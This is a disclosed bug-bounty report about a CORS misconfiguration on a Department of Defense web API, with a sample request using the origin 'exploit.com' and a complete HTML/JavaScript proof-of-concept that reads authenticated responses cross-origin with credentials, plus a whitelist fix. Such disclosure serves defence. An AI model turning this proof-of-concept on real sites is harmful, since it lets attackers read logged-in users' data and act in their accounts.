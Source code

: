 # [██████] Cross-origin resource sharing misconfiguration (CORS)

## Report Details
- **Report ID**: 470298
- **URL**: https://hackerone.com/reports/470298
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-12-20T15:15:12.102Z
- **Disclosed**: 2019-01-28T13:31:46.124Z

## Reporter
- **Username**: jarvis0x1
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
Hi!

In this report I want to describe High level bug which can seriously compromise a user account.

If I am authorize on this site, I can steal user's sessions, some personal information or do some action.

### Steps for reproduce

1) Send this request

```
GET /api/jsonws/relo-service-plugin-portlet.content/get-content-by-slug/slug/page-ex-link HTTP/1.1
Host: www.█████
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: exploit.com
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

In response headers you can see headers
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: exploit.com
```

{F395049}


So you can write exploit:
```
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
	        var xhttp = new XMLHttpRequest();
		        xhttp.onreadystatechange = function() {
			        if (this.readyState == 4 && this.status == 200) {
			        	document.getElementById("emo").innerHTML = alert(this.responseText);
	        }
         };
         xhttp.open("GET", "https://www.███/api/jsonws/relo-service-plugin-portlet.content/get-content-by-slug/slug/page-ex-link", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS PoC Exploit </h2>
      <h3>created by <a href="https://twitter.com/Jarvis7717">@Jarvis</a></h3>
      <h3>Show full content of page</h3>
      <div id="demo">
         <button type="button" onclick="cors()">Exploit</button>
      </div>
   </body>
</html>
```

Result:
{F395063}
### How to fix

Rather than using a wild card or programmatically verifying supplied origins, use a white list of trusted domains.

## Impact

Attacker would treat many victims to visit attacker's website, if victim is logged in, then his personal information is recorded in attacker's server. Attacker can perform any action in the user's account, bypassing CSRF tokes.

## Attachments
No attachments
